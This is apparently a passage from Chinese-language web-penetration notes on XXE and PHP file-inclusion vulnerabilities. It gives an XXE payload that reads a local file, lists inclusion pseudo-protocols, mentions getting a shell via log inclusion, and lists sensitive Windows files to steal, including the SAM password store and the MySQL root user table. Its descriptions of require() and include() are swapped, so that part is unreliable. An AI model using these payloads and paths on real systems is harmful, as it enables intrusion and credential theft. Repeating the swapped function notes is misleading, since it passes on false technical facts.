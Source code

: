将以下xml代码进行URL编码，读取文件

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE playwin [
<!ENTITY name SYSTEM "file:///D:/phpStudy/PHPTutorial/WWW/1.txt">
]>
<resume>
<name> &name; </name>
</resume>
```





**Xxe漏洞支持的伪协议**

不同的程序支持协议不同



### 5.文件包含漏洞

**文件包含的函数**

php中有四种

```
require() // 只在执行到此函数时才去包含文件，若包含的文件不存在产生警告，程序继续运行

require_once() // 如果一个文件已经被包含过，则不会在包含它

include() // 程序一运行文件便会包含进来，若包含文件不存在产生致命错误，程序终止运行

include_once() // 如果一个文件已经被包含过，则不会在包含它
```



**文件包含支持的伪协议**

```
php的支持
php://filter
php://input
file://
phar://
zip://
data://
```



**文件包含利用**



包含日志文件getshell

包含敏感文件

```
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
C:\Windows\win.ini //Windows系统的一个基本系统配置文件
```
